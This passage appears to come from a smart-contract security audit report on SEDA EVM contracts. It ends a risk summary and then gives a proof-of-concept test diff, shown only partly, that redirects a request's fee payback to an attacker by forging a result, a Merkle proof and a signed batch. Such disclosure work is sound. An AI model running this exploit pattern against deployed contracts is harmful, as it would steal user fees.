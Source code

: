 The combination of high impact, medium likelihood, and significant scalability makes this vulnerability a critical security risk requiring immediate attention and mitigation.

### POC
```solidity
diff --git a/seda-evm-contracts/test/core/SedaCoreV1.test.ts b/seda-evm-contracts/test/core/SedaCoreV1.test.ts
index a427ab7..225f523 100644
--- a/seda-evm-contracts/test/core/SedaCoreV1.test.ts
+++ b/seda-evm-contracts/test/core/SedaCoreV1.test.ts
@@ -666,6 +666,97 @@ describe('SedaCoreV1', () => {
         ).to.be.revertedWithCustomError(core, 'InvalidFeeAmount');
       });
     });
+
+    describe('gas manipulation attacks', () => {
+      it('demonstrates profit from gasUsed manipulation', async () => {
+        const { core, data, prover } = await loadFixture(deployCoreFixture);
+        const requestFee = ethers.parseEther('10.0');
+        const [requestor, attacker] = await ethers.getSigners();
+
+        console.log('Attack Scenario Setup:');
+        console.log('Initial conditions:');
+        const initialAttackerBalance = await ethers.provider.getBalance(attacker.address);
+        console.log(`- Attacker initial balance: ${ethers.formatEther(initialAttackerBalance)} ETH`);
+        console.log(`- Request fee set to: ${ethers.formatEther(requestFee)} ETH`);
+
+        // Use request index 1 which has specific gas usage set in the fixture
+        const requestIndex = 1;
+
+        // Submit request with high fee
+        await core.postRequest(data.requests[requestIndex], requestFee, 0, 0, { value: requestFee });
+        const requestId = deriveRequestId(data.requests[requestIndex]);
+        console.log(`- Request posted with ID: ${requestId}`);
+
+        // Log gas limits
+        const totalGasLimit = BigInt(data.requests[requestIndex].execGasLimit) +
+                             BigInt(data.requests[requestIndex].tallyGasLimit);
+        console.log(`- Total gas limit: ${totalGasLimit}`);
+        console.log(`- Original gasUsed in result: ${data.results[requestIndex].gasUsed}`);
+
+        // Create attack result
+        const attackResult = {
+          ...data.results[requestIndex],
+          paybackAddress: ethers.hexlify(attacker.address)
+        };
+
+        // Generate new proof for modified result
+        const resultId = deriveResultId(attackResult);
+        const resultLeafHash = computeResultLeafHash(resultId);
+        const resultsTree = SimpleMerkleTree.of([resultLeafHash], { sortLeaves: true });
+        const newProof = resultsTree.getProof(0);
+
+        // Submit batch with new root
+        const batch = {
+          ...data.initialBatch,
+          batchHeight: 1,
+          resultsRoot: resultsTree.root
+        };
+        const signatures = [await data.wallets[0].signingKey.sign(deriveBatchId(batch)).serialized];
```